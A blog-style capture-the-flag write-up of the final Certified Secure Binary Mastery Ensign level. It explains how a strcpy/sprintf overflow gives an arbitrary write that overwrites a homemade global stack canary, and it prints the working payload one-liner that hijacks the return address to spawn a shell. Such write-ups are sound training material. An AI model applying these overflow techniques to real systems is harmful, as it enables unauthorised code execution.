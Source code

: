 ```yaml
---
title:  "[CTF] Binary Master Ensign - 5"
categories: [CTF, Binary-Master]
---
```


![Logo](/assets/images/belts-blue.png)


In this post we'll continue with level5, the last one from **Certified Secure Binary Mastery**, [Ensign](https://www.certifiedsecure.com/certification/view/37). 
This time we will be dealing again with more buffer overflow issues but we'll have to defeat a homemade implementation of buffer overflow detection. This is the most interesting level so far and it hides yet another logical vulnerability that will allow us to defeat the random stack canary.

To review the previous levels, check the links below:
* [Binary Master: Ensign - Level 1]({{ site.baseurl }}{% post_url 2016-01-07-binary-master-ensign-1 %})
* [Binary Master: Ensign - Level 2]({{ site.baseurl }}{% post_url 2016-01-14-binary-master-ensign-2 %})
* [Binary Master: Ensign - Level 3]({{ site.baseurl }}{% post_url 2016-01-21-binary-master-ensign-3 %})
* [Binary Master: Ensign - Level 4]({{ site.baseurl }}{% post_url 2016-01-28-binary-master-ensign-4 %})

## 0 - Discovery

Let's connect to the server and check the binary we're dealing with:
```
$ ssh level5@hacking.certifiedsecure.com -p 8266
level4@hacking.certifiedsecure.com's password: 
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 3.13.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

New release '16.04.2 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

   ___  _                      __  ___         __              
  / _ )(_)__  ___ _______ __  /  |/  /__ ____ / /____ ______ __
 / _  / / _ \/ _ `/ __/ // / / /|_/ / _ `(_-</ __/ -_) __/ // /
/____/_/_//_/\_,_/_/  \_, / /_/  /_/\_,_/___/\__/\__/_/  \_, / 
                     /___/                 _            /___/  
                             ___ ___  ___ (_)__ ____ 
                            / -_) _ \(_-</ / _ `/ _ \
                            \__/_//_/___/_/\_, /_//_/
                                          /___/      
```

Let's see if we have any mitigation techniques using [checksec.sh](http://www.trapkit.de/tools/checksec.html), downloaded and run locally:
```bash
$ checksec.sh --file level5
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   level5
```

NX is disabled and again there is no stack canary. Why enable the stack cookie when we can do it ourselves, right?. Let's verify whether the stack is executable:

```
$ readelf -lW level5 | grep GNU_STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x10
```

The R**W**E flag suggests Read-**Write**-Execute flags are all enabled. Also remember from the previous levels that ASLR is disabled on the system and all the addresses are static.

## 1 - Vulnerability

```c
#include <string.h>
#include <stdio.h>
#include <stdlib.h>

int canary;

void __attribute__ ((constructor)) generate_canary() {
        FILE* fp = fopen("/dev/urandom", "r");
        fread(&canary, 4, 1, fp);                                [1]      
}

void hello(char* name) {
        int cookie = canary;
        int i = 0x12345;
        char* msg = malloc(128);
        char buf[12];

        strcpy(buf, name);                                       [4]
        sprintf(msg, "%s, it's good to see you!\n", buf);        [5]

        printf("%s", msg);

        if (cookie != canary) {                                  [3]        
                printf("*** stack smashing detected ***\n");

                abort();
        }
}

int main(int argc, char** argv) {
        if (argc != 2) {
                printf("Usage: %s <name>\n", argv[0]);

                return -1;
        }

        hello(argv[1]);                                          [2]

        return 0;
}
```

First let us understand how the program works:
* We have one constructor that generates a random 4 bytes canary by reading **/dev/urandom** (**[1]**)
* The **Main** function accepts one input parameter which is passed to the **hello** function (**[2]**).
* The **hello** function assigns the value of the canary to the first variable on the stack - **cookie**. 
* In case any buffer overflow would try to overwrite the return address, it would have to overwrite also the cookie. But this would trigger a program termination with an error (**[3]**). Not good.

Now let's see how we can break it. Again a stack layout of the function is very useful. We need to understand where each variable is located and which ones we can overwrite. Below I've renamed the variables in IDA to reflect the source code from level5.c:

<img src="/assets/images/bm5-1.png" alt="Stack layout" class="figure-body">

* The **strcpy** call at **[4]** can overwrite the address of the newly allocated memory block in **msg**, which is located immediately after the buffer.
* The **sprintf** call at **[5]** will write from **buf** to the address we've just overwritten by the call before.
* Basically we have a primitive that allows us to overwrite an arbitrary memory address.

## 2 - Exploit

### Overwriting the canary

Because the canary is stored in a global variable, in a writeable section (check the permissions of **.bss** section with `readelf -S level5`), we can overwrite it:

<img src="/assets/images/bm5-2.png" alt="lobal variable" class="figure-body">

Then we'll supply our overwritten canary value in the buffer and carry on the exploitation as usual. Based on the observation above, a simple payload that just overwrites the canary with 0x01020304 would look like this:
```
| "\x04\x03\x02\x01" | JUNK (8 bytes) | "\x40\xa0\x04\x08" |
```

Explanation:
* At offset 12 in the payload we place the address that will overwrite (at **[4]**) the pointer generated by **malloc**
* First 4 bytes of the payload will be written to that address at **[5]**

We can test this in GDB and make sure we got this first step right:
```bash
gdb-peda$ run  $(python -c 'print "\x04\x03\x02\x01" + "A"*8 + "\x40\xa0\x04\x08"')
```

### Overwriting the return address

Building on the findings from the previous point, the next payload achieves full control of EIP, without triggering the error message:

* Overwrites the canary, as above
* Sends a buffer with the correct overwritten canary value, which will overwrite the **cookie** variable
* Overwrites the return address from **hello** function with "XXXX"

```
| "\x04\x03\x02\x01" | JUNK (8 bytes) | "\x40\xa0\x04\x08" | JUNK (4 bytes) | "\x04\x03\x02\x01" | JUNK (12 bytes) | RET | 
```

If it's not clear why, check again the stack layout from the image above. Basically the 4 bytes of junk represents the **i** variable, next we have the value that will overwrite **cookie** (has to be the same as the canary), 12 more junk bytes then the value for the return address.

Again, test this first in GDB:
```bash
gdb-peda$ run  $(python -c 'print "\x04\x03\x02\x01" + "A"*8 + "\x40\xa0\x04\x08" + "JUNK" + "\x01\x02\x03\x04" + 12*"A" + "XXXX"')
```

### Shellcode

In this case we can use the same approach as for levels 1-3 and place a shellcode spawning /bin/dash into an environment variable. Check [level1](https://livz.github.io/2016/01/07/binary-master-ensign-1.html) for more details.

## 3 - Profit

```
$ /levels/level5  $(python -c 'print "\x04\x03\x02\x01" + "A"*8 + "\x40\xa0\x04\x08" + "JUNK" +  "\x04\x03\x02\x01" + 12*"A" + "\xd6\xd8\xff\xff"')
AAAAAAAA@JUNKAAAAAAAAAAAA���, it's good to see you!
$ id
uid=1006(level5) gid=1006(level5) euid=1007(level6) groups=1007(level6),1006(level5)
$ /home/level6/victory
   ___  _                      __  ___         __              
  / _ )(_)__  ___ _______ __  /  |/  /__ ____ / /____ ______ __
 / _  / / _ \/ _ `/ __/ // / / /|_/ / _ `(_-</ __/ -_) __/ // /
/____/_/_//_/\_,_/_/  \_, / /_/  /_/\_,_/___/\__/\__/_/  \_, / 
                     /___/                 _            /___/  
                             ___ ___  ___ (_)__ ____ 
                            / -_) _ \(_-</ / _ `/ _ \
                            \__/_//_/___/_/\_, /_//_/
                                          /___/      

Subject: Victory!

Congrats, you have solved the last level!. To update your score,
send an e-mail to unlock@certifiedsecure.com and include:
   * your CS-ID
   * which level you solved (level5 @ binary mastery ensign)
   * the exploit
```

This was the last level in this challenge set. Next set of levels, [Binary Mastery: Lieutenant](https://www.certifiedsecure.com/certification/view/37) will be even more fun :) as they include modern day vulnerabilities and mitigation techniques. In the [next part]({{ site.baseurl }}{% post_url 2016-02-16-binary-master-lieutenant-1 %}) we'll look at bypassing the **NX** bit using **return to libc** technique.
